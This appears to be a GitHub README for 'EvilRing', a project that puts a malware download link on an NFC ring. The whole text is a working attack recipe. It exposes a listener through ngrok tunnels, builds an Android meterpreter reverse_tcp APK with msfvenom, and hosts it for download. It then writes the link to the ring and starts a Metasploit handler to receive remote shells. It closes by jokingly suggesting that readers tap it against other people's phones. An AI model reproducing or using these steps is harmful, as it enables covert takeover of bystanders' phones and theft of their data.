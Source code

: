 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:
1. 
  Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xzvf ngrok-v3-stable-linux-amd64.tgz
chmod +x ngrok
sudo mv ngrok /usr/local/bin/ngrok
rm ngrok-v3-stable-linux-amd64.tgz
ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`

2.
  Create an ngrok TCP tunnel
(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended
Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3.
  Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4.
  Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080
./ngrok http 8080`

5.
  Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6.
  On your command and control open msfconsole:
  
`msfconsole -q

(inside msfconsole) 
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
run`
  
7. 
  (Dont) go an hold onto some phones!
